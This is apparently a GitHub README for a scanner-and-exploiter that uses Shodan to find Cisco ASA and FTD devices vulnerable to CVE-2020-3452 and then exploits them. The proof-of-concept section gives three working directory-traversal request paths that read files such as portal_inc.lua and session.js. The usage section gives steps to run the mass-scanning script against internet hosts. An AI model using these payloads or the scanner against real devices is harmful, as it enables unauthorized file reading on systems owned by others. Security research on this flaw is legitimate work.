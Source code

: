 # CISCO CVE-2020-3452 Scanner & Exploiter
> backup https://github.com/darklotuskdb/CISCO-CVE-2020-3452-Scanner-Exploiter

It will scan the target servers from shodan and then find the vulnerable servers to CVE-2020-3452 (Cisco Adaptive Security Appliance and FTD Unauthorized Remote File Reading).


## POC
```bash
 /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=+CSCOE+/portal_inc.lua
 /+CSCOT+/translation-table?type=mst&textdomain=/+CSCOE+/portal_inc.lua&default-language&lang=../
 /+CSCOT+/translation-table?type=mst&textdomain=/+CSCOE+/session.js&default-language&lang=../
```


## About 

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.

The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Prerequisites

Install [Shodan-Command-Line-Interface](https://cli.shodan.io/)

```
1. pip install -U setuptools
2. easy_install shodan
3. easy_install -U shodan
4. shodan init YOUR_API_KEY
```

## Usage

Linux

```
1. git clone https://github.com/darklotuskdb/CISCO-CVE-2020-3452-Scanner-Exploiter.git
2. cd CISCO-CVE-2020-3452-Scanner-Exploiter/
3. chmod +x SnE-CVE-2020-3452.sh
4. ./SnE-CVE-2020-3452.sh
```

### Screenshot
![SnE-CVE-2020-3452](https://user-images.githubusercontent.com/29382875/103662913-816c9e00-4f96-11eb-9d35-53a9767589e2.png)

## Reference

* https://twitter.com/aboul3la/status/1286012324722155525
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Donation
[BuyMeACoffee](https://www.buymeacoffee.com/darklotus) if you like my work

## About Me

* **DarkLotus** - *Cyber Security Researcher* - [DarkLotusKDB](https://github.com/darklotuskdb)

### Social Media Handles
* [Twitter](https://twitter.com/darklotuskdb)
* [Medium](https://medium.com/@darklotus)
* [Linkedin](https://www.linkedin.com/in/kamaldeepbhati/)
* [Instagram](https://www.instagram.com/kamaldeepbhati/)
